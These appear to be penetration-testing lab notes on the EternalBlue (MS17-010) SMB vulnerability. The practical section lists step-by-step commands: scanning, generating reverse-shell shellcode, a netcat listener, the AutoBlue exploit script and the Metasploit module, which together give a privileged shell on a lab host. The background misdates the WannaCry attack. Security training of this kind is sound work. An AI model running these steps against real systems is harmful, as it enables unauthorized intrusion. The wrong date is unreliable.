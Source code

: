 - EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The EternalBlue exploit as developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
- Exploitation through EternalBlue does not only provide the attacker with just user access to the system, but instead, privileged access, implying that there is no need to perform privilege escalation while performing exploitation through these vulnerabilities.
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple versions of Windows:
	- Windows Vista
	- Windows 7
	- Windows Server 2008
	- Windows 8.1
	- Windows Server 2012
	- Windows 10
	- Windows Server 2016
- Microsoft released a patch for the vulnerability in March, 2017, however many users and companies have still not patched their systems.

Exploitation
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
- In addition to the MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code

Tools & Environment
- AutoBlue-MS17-010: https://github.com/3ndG4me/AutoBlue-MS17-010
- Target System: Windows Server 2008 R2
- Penetration Testing Distribution: Kali Linux

Practical Demonstration
- `sudo nmap -sV -p 445 -O 10.10.10.12`
- `sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.10.12`
- Manual Exploitation
	- `git clone https://github.com/3ndG4me/AutoBlue-MS17-010`
	- `cd AutoBlue-MS17-010`
	- `ls`
	- `pip install -r requirements.txt`
	- `cd shellcode`
	- `chmod +x shell_prep.sh`
	- `./shell_prep.sh`
		- Auto-generation of a reverse shell with msfvenom: `yes`
		- LHOST: `10.10.10.10`
		- LPORT (x64): `1234`
		- LPORT (x86): `1234`
		- Meterpreter Shell (0) or CMD Shell (1): `1`
		- Staged Payload (0) or Stage-less Payload (1): `1`
	- `ls`
	- Setting up a netcat listener on a different terminal: `nc -nvlp 1234`
	- `cd ..`
	- `chmod +x eternalblue_exploit7.py`
	- `python eternalblue_exploit7.py 10.10.10.12 shellcode/sc_x64.bin`
	- Check the terminal you set up earlier to listen on the LPORT.
		- `whoami`
- Automated Exploitation, using Metasploit Framework
	- `msfconsole`
	- `search eternalblue`
	- `use exploit/windows/smb/ms17_010_eternalblue`
	- `show options`
	- `set LHOST 10.10.10.10`
	- `set LPORT 1234`
	- `set RHOSTS 10.10.10.12`
	- `exploit`
	- Meterpreter Session
		- `whoami`
		- `getuid`